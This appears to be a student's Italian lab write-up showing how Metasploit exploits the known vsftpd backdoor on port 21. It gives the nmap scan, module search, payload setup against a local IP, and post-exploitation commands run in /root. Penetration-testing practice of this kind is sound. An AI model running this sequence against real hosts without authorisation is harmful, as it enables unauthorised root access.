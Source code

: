 # **Metasploit**
Nell'esercizio di oggi abbiamo utilizzato il framework di metasploit per bucare una vulnerabiltà nota sulla porta 21.

## **Processo**
### **nmap**
Scansione IP della macchina target
```bash
nmap -sV -T5 192.168.1.1
```
➡️ [Risultato scansione](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/2.png)
### **vsftpd**
Ho cercato una parola chiave che mi potesse trovare la vulnerabilità nota
```bash
search vsftpd 
```
➡️ [Risultato scansione](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/3.png)
### **payload**
Tramite il comando show ho trovato i payload utilizzabili con questo exploit
```bash
show payloads
```
➡️ [Payloads](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/3.png)
### **host**
Ho settato l'host target da bucare
```bash
set RHOSTS 192.168.1.149
```
### **payload**
Ho impostato il payload per l'exploit
```bash
set payload /payload/cmd/unix/interact
```

### **avvio**
Dopo aver settato tutto ho avviato il framework
```bash
exploit
```
➡️ [Avvio](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/7.png)

### **ls**
Digito un semplice comando per visuallizare tutte le directory
```bash
ls
```
➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/8.png)

### **cd**
Sono entrato nella directory root
```bash
cd root
```
### **root**
Creao una cartella nella directory root e poi visualizzo il contenuto
```bash
mkdir test_metasploit
ls
```
➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/10.png)

